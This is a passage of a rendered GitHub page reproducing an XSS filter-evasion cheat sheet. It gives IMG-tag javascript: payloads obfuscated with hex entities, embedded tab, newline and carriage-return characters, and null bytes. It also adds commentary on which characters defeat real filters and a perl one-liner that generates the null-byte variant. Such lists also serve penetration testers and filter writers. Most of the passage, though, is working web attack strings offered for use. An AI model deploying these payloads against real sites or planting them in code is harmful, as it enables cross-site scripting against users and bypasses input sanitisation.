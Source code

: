 <pre><code>&lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29&gt;
</code></pre>
<h2><a id="user-content-embedded-tab" class="anchor" aria-hidden="true" href="#embedded-tab"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded tab</h2>
<p>Used to break up the cross site scripting attack:</p>
<pre><code>&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-encoded-tab" class="anchor" aria-hidden="true" href="#embedded-encoded-tab"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded Encoded tab</h2>
<p>Use this one to break up XSS :</p>
<pre><code>&lt;IMG SRC="jav&amp;#x09;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-newline-to-break-up-xss" class="anchor" aria-hidden="true" href="#embedded-newline-to-break-up-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded newline to break up XSS</h2>
<p>Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:</p>
<pre><code>&lt;IMG SRC="jav&amp;#x0A;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-carriage-return-to-break-up-xss" class="anchor" aria-hidden="true" href="#embedded-carriage-return-to-break-up-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded carriage return to break up XSS</h2>
<p>(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):</p>
<pre><code>&lt;IMG SRC="jav&amp;#x0D;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-null-breaks-up-javascript-directive" class="anchor" aria-hidden="true" href="#null-breaks-up-javascript-directive"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Null breaks up JavaScript directive</h2>
<p>Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use <code>%00</code> in the URL string or if you want to write your own injection tool you can either use vim (<code>^V^@</code> will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char <code>%00</code> is much more useful and helped me bypass certain real world filters with a variation on this example:</p>
<pre><code>perl -e 'print "&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;";' &gt; out
</code></pre>